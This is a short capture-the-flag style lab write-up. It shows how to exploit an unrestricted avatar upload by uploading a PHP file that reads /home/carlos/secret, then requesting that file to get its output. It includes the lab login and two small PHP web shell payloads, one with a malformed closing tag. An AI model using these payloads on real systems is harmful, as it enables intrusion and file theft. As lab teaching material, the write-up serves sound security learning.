 # Login
![1_0](1.png)
We can log in to your own account using the following credentials: 
```bash
wiener:peter
```
### We know this lab contains image upload function vunerablity. So lets start looking for it.

# Information gathering

![2_0](02.png)

We can upload the image file under Avatar lable.

![3_0](03.png)

From the image we know there is no file restiction to upload. Now we have to create an executable file to execute via web shell.

# Exploit

We have to create a php executable file which contains a script for fetching the contents of (/home/carlos/secret).

```bash
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
or
```bash 
<?php
$sus = file_get_contents('/home/carlos/secret');
echo $sus
>
```

![4_0](04.png)


We successfully uploaded the executable file. Now we have to retive the output of the executable file. 

![5_0](05.png)

From the source code we can know the location of the uploaded file. Now we will redirect to the path in URL.

![6_0](06.png)

We got the Solution.

# Conclution
From this lab we gained the basic idea of remote code execution vunerablity.